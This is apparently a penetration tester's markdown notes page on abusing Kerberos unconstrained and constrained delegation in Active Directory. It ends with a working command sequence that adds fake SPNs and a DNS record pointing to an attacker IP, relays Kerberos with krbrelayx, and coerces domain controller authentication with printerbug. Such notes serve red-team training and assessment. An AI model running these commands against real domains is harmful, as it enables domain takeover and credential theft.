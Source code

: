 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any unconstrained objects [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires changes from default config for user accounts

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## [Unconstrained delegation](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
  *  KDC provides KUD service accounts a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  Abusing user accounts with unconstrained delegation relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16)
      *  Create SPN for service account using fake hostname
      *  Create DNS entry matching fake hostname pointing to attacker IP
      *  Coerce authentication to the fake hostname SPNs and capture TGT
  *  Add FQDN of domain controller to `hosts` file to avoid DNS errors

// Unconstrained delegation abuse via service (user) account 
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```
